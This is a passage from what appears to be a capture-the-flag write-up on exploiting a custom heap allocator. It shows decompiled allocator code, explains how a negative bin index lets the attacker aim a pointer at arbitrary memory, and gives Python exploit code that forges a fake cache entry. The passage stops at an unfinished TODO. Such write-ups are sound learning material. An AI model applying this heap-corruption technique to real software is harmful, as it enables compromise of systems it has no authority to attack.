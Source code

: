 As a reminder, the `mcache` is structured like this:

```c
typedef struct mcache_struct {
    uint8_t counts[MCACHE_MAX_BINS];
    mcache_entry *entries[MCACHE_MAX_BINS];
}
```

`mcache->entries[-1]` _really_ refers to `mcache->counts[0x10:0x18]`. By filling up the `mcache` bins for `0x120 <= chunk_sz < 0x1a0`, we can get `mcache->entries[-1]` to point to **any arbitrary location**.

The subsequent call to `mmalloc_alloc(0)` has a small safety check, as I showed earlier in the flowchart:

```c
__int64 *mcache_alloc(int user_sz) { // user_sz = 0
  mcache_struct *mcache_ = mcache;  // [rsp+30h] [rbp-10h]
  int midx = csize2midx(request2size(user_sz)) // midx = -1, [rsp+2Ch] [rbp-14h]
  mcache_entry *e = mcache->entries[midx];  // [rsp+20h] [rbp-20h]
  mcache->entries[midx] = (mcache_entry *)e->fd;
  --mcache_->counts[midx];
  if ( mcache_ != (mcache_struct *)e->mcache ) { // ! need to ensure that (void*)entries[-1][2] == mcache
    puts("Mcache: Invalid verify");
    exit(1);
  }
  e->fd = e->mcache = 0LL;
  remove_id(e->id);
  return &e->mcache;
}
```

This effectively means that `mcache->entries[-1]` needs to point to a known region of user-controlled data, like the mound. I'll use this bug to allocate a fake chunk with a valid mcache size.

```python
def fake_mcache_entry(sz: int, fd=0, rid=None, mcache=0xbeef0000010):
    if rid is None: rid = r64()
    return fit(rid, sz, mcache, fd)
add(0x20, 0, fake_mcache_entry(0x100))
add(1, 1, b'a') # chunk to be overflowed
fake_mcache_addr = 0xbeef0000100
for i,b in enumerate(pack(fake_mcache_addr)):
    chunk_sz = 0x120+i*0x10
    user_sz = chunk_sz - 0x10
    # TODO: how to get b > 0xf?
    for i in range(b): add(user_sz, 0xf-i, b'garbage')
    for i in range(b): free(0xf-i)
add(0, 2, b'') # trigger bug
free(0)
```

There's a `TODO` in there, and I'll explain. The problem with incrementing `mcache->counts[0x10:0x18]` one-by-one is that there aren't enough pointers to go around. By right, if `sizeof(arr[])` is only `0x10`, the maximum value for `mcache->counts[]` should be 0x10 as well.
